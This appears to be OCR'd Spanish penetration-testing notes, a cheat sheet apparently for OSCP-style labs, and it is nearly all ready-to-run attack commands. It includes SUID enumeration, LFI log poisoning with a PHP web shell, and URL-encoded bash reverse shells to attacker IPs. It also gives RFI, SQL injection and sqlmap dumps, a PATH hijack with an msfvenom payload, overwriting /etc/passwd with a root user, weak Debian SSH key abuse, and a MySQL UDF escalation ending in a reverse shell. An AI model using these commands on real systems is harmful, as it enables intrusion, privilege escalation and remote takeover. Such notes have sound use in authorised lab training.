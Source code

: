 **\- Buscar SUID**

find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;
find / -uid 0 -perm -4000 -type f 2>/dev/null

**\- Archivos modificas hace 10 min**
find / \-mmin \-10 2\>/dev/null \| grep \-Ev "^/proc"

**\- Archivo que se puede editar**

find / -writable ! -user \\\`whoami\\\` -type f ! -path "/proc/\*" ! -path "/sys/\*" -exec ls -al {} \\; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "\*/proc/\*" -perm -2 -type f -print 2>/dev/null

**\- Find SUID**
find / -perm -u=s -type f 2>/dev/null

**\- Find GUID**
find / -perm -g=s -type f 2>/dev/null

**\- Archivos ocultos**
find / -name ".\*" -print 2>/dev/null

**\- Envenenamiento de logs con LFI to RCE**
nc -nv 192.168.139.52 80
<?php echo '\<pre>' . shell\_exec($\_GET['cmd']) . '\</pre>';?>
{url}/menu.php?file=/var/log/apache2/access.log&cmd=id
**\- para hacer un revershell toca encodear el comando\, ejemplo**
/bin/bash -c 'bash -i > /dev/tcp/192.168.119.239/5555 0>%261' --->>>> %2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%33%39%2f%35%35%35%35%20%30%3e%25%32%36%31%27
\- se puede hacer por User Agent: tambien
**\- hacer shell interactiva**
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg
reset
terminal type? xterm
stty rows 40 columns 184
**\- RFI**
se debe crear un archivo en el atacante
└─# cat evil.txt.php 1 ⨯
<?php echo shell\_exec($\_GET['cmd']);?>
se ejecuta desde la victima
http://192.168.239.10/menu.php?file=http://192.168.119.239/evil.txt.php&cmd=ipconfig

\- Sticktbit
chmod 4755 /bin/bash
/bin/bash -p

**\- SQLI**
--identificar columnas
?id=1 GROUP BY 5--+
--identificar campos vulnerables
?id=1 UNION select 1,2,3,4,5
\-\- extraer informacion
UNION select 1,2,group\_concat(password),4,5 FROM users
--automatizado
sqlmap -u "http://192.168.239.52/debug.php?id=1" -p"id" --dbms=sqlite --dump

**\- Path Inyection**
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o scp
se carga este archivo en bob mediante python -m ......
se desarga en bob
wget http://ip/scp
chmod 755 scp
export path=/home/bob:$PATH
/usr/local/bin/uploadtosecure
bob@sufferance:\~$ /usr/local/bin/uploadtosecure

**\- Escape rbash**
vi -> :set shell=/bin/bash
/bin/bash
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/bash:$SHELL

<br>
**\- Permisos de passwd para escribir**
openssl passwd -1 -salt ignite pass123
echo 'ignite:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/bin/bash' > /etc/passwd

<br>
**\- Identificacion de smb**
https://fareedfauzi.gitbook.io/oscp-notes/services-enumeration/smb
./smbver.sh 10.11.1.115 139
10.11.1.115: UnixSamba 227a

<br>
**\- Ataque fuerza bruta ssh \- authorized\_key**
https://github.com/g0tmi1k/debian-ssh
se procede a realizar lo que se pide en la documentacion
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh/common\_keys
bunzip2 debian\_ssh\_dsa\_1024\_x86.tar.bz2
tar -xvf debian\_ssh\_dsa\_1024\_x86.tar
cd dsa/1024
cat authorized\_key
grep -lr 'AAAAB3NzaC1kc3MAAACBAOgzzMCD3Im5bRnAVdV3yLwTsyNAi3'
f1fb2162a02f0f7c40c210e6167f05ca-16858.pub === publica donde esta la authorized\_key
se procede a hacer ssh
ssh -i f1fb2162a02f0f7c40c210e6167f05ca-16858 -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 -oHostKeyAlgorithms=+ssh-dss bob@10.11.1.136

<br>
<br>
**\- Mysql**
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load\_file('/home/raptor/raptor\_udf2.so'));
mysql> select \* from foo into dumpfile '/usr/lib/raptor\_udf2.so';
mysql> create function do\_system returns integer soname 'raptor\_udf2.so';
mysql> select \* from mysql.func;
+-----------+-----+----------------+----------+
\| name \| ret \| dl \| type \|
+-----------+-----+----------------+----------+
\| do\_system \| 2 \| raptor\_udf2\.so \| function \|
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

<br>
select do\_system(' bash -c 'exec bash -i &>/dev/tcp/192.168.119.184/80 <&1'');






script /dev/null -c bash







